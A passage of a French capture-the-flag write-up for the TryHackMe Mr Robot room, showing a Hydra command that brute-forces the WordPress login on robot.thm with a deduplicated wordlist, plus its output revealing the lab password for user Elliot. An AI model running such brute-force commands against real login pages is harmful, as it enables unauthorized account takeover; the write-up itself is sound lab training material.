 ![page3](./Task1-03.png)

Avec le bon nom d'utilisateur on a un autre message d'erreur on va l'utiliser pour hydra.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sort -u fsocity.dic > dic.dic

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l Elliot  -P dic.dic robot.thm http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:incorrect'  -t 30
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-17 19:54:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://robot.thm:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect
[STATUS] 232.00 tries/min, 232 tries in 00:01h, 11220 to do in 00:49h, 30 active
[STATUS] 323.67 tries/min, 971 tries in 00:03h, 10481 to do in 00:33h, 30 active
[STATUS] 190.14 tries/min, 1331 tries in 00:07h, 10121 to do in 00:54h, 30 active
[STATUS] 136.67 tries/min, 2050 tries in 00:15h, 9402 to do in 01:09h, 30 active
[STATUS] 112.03 tries/min, 3473 tries in 00:31h, 7979 to do in 01:12h, 30 active
[STATUS] 103.79 tries/min, 4878 tries in 00:47h, 6574 to do in 01:04h, 30 active
[80][http-post-form] host: robot.thm   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-17 20:51:03

```
